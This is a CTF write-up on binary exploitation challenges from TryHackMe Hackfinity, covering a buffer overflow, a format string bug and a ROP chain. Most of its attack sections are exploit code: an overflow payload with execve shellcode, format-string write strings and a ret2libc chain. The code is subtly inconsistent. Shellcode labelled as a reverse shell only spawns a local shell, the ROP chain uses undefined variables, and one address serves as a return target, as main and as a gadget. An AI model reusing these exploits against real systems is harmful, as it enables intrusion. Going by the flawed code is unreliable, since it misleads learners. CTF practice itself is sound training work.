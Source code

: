 ```yaml
---
layout: writeup
title: "TryHackMe Hackfinity: Binary Analysis"
date: 2025-06-15
author: "ReverseEngineer"
category: "Reverse Engineering"
difficulty: "Medium"
tags: ["RE", "Binary", "THM", "Reverse Engineering", "Assembly"]
---
```


# TryHackMe Hackfinity: Binary Analysis

Our approach to solving the complex binary challenges in TryHackMe Hackfinity 2025. This writeup demonstrates advanced reverse engineering techniques and binary exploitation methods.

## Challenge Overview

The Hackfinity CTF featured several challenging binary analysis problems that required deep understanding of assembly language, memory layout, and exploitation techniques. Our team successfully solved 8 out of 10 binary challenges, securing a top position in the competition.

## Tools Used

- **Ghidra**: Primary reverse engineering tool
- **GDB**: Dynamic analysis and debugging
- **Radare2**: Alternative disassembly and analysis
- **Python**: Scripting and automation
- **ROPgadget**: ROP chain construction

## Challenge 1: Simple Buffer Overflow

### Initial Analysis

The first challenge was a straightforward buffer overflow vulnerability in a 32-bit ELF binary. Let's examine the vulnerable function:

```c
void vulnerable_function() {
    char buffer[64];
    gets(buffer);  // Vulnerable function
    return;
}
```

### Exploitation Strategy

1. **Pattern Creation**: Used pattern_create to identify exact offset
2. **EIP Control**: Confirmed control at offset 76 bytes
3. **Shellcode**: Created custom shellcode for reverse shell
4. **Exploit Development**: Crafted final payload

### Final Exploit

```python
#!/usr/bin/env python3
import struct

# Shellcode for reverse shell
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Buffer overflow payload
payload = b"A" * 76
payload += struct.pack("<I", 0x08048532)  # Return address
payload += shellcode

print(payload)
```

## Challenge 2: Format String Vulnerability

### Vulnerability Identification

The binary contained a format string vulnerability in the logging function:

```c
void log_message(char *message) {
    printf(message);  // Format string vulnerability
}
```

### Exploitation Steps

1. **Leak Addresses**: Used format string to leak libc addresses
2. **Calculate Offsets**: Determined libc base address
3. **GOT Overwrite**: Overwrote GOT entry for system()
4. **Command Execution**: Executed arbitrary commands

### Format String Payload

```python
# Leak libc address
payload = "%p." * 20

# Overwrite GOT entry
payload = "%134520831c%7$n"  # Write to GOT
```

## Challenge 3: ROP Chain Construction

### Binary Analysis

This challenge required building a complex ROP chain to bypass ASLR and NX protections.

### ROP Gadgets Found

```bash
$ ROPgadget --binary challenge3
0x080484da : pop ebx ; ret
0x080484db : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048532 : pop eax ; ret
0x08048533 : pop eax ; pop edx ; pop ebx ; ret
```

### ROP Chain Strategy

1. **Leak libc**: Use puts() to leak GOT entry
2. **Calculate system()**: Add offset to leaked address
3. **Execute system()**: Call system("/bin/sh")

### Final ROP Chain

```python
# ROP chain components
pop_ebx_ret = 0x080484da
puts_plt = 0x08048320
puts_got = 0x0804a018
main_addr = 0x08048532

# Stage 1: Leak libc
rop_chain = b"A" * 76
rop_chain += struct.pack("<I", puts_plt)
rop_chain += struct.pack("<I", main_addr)
rop_chain += struct.pack("<I", puts_got)

# Stage 2: Execute system("/bin/sh")
system_offset = 0x3a940
binsh_offset = 0x15902b

rop_chain += struct.pack("<I", system_addr)
rop_chain += b"AAAA"  # Dummy return address
rop_chain += struct.pack("<I", binsh_addr)
```

## Advanced Techniques

### 1. Heap Exploitation

For heap-based challenges, we used:

- **Use After Free (UAF)**: Exploiting freed memory references
- **Double Free**: Creating overlapping chunks
- **Heap Spraying**: Filling heap with controlled data

### 2. Advanced ROP

- **Ret2libc**: Returning to libc functions
- **Ret2plt**: Using PLT entries
- **Stack Pivoting**: Moving stack pointer to controlled location

### 3. Bypassing Protections

- **ASLR**: Address space layout randomization bypass
- **NX**: Non-executable stack bypass using ROP
- **Canary**: Stack canary bypass techniques
- **PIE**: Position independent executable analysis

## Lessons Learned

### Technical Skills

1. **Assembly Language**: Deep understanding of x86 assembly
2. **Memory Layout**: Stack, heap, and binary structure
3. **Exploitation**: Various exploitation techniques
4. **Tool Usage**: Proficiency with RE tools

### Problem-Solving Approach

1. **Systematic Analysis**: Step-by-step binary analysis
2. **Documentation**: Keeping detailed notes during analysis
3. **Testing**: Validating each step before proceeding
4. **Collaboration**: Team-based problem solving

## Conclusion

The TryHackMe Hackfinity CTF provided excellent opportunities to practice advanced reverse engineering and binary exploitation techniques. The challenges ranged from basic buffer overflows to complex ROP chains, requiring both technical skills and creative problem-solving.

### Key Takeaways

- **Practice is Essential**: Regular practice with different types of binaries
- **Tool Proficiency**: Mastery of reverse engineering tools
- **Methodical Approach**: Systematic analysis leads to better results
- **Continuous Learning**: Stay updated with new exploitation techniques

### Future Improvements

- **Automation**: Develop scripts for common analysis tasks
- **Tool Integration**: Better integration between different tools
- **Knowledge Base**: Build a personal knowledge base of techniques
- **Community Engagement**: Participate in more CTF competitions

---

*"The best way to learn reverse engineering is to practice on real binaries." - ReverseEngineer*

**Tags**: #RE #Binary #THM #Reverse Engineering #Assembly #Exploitation 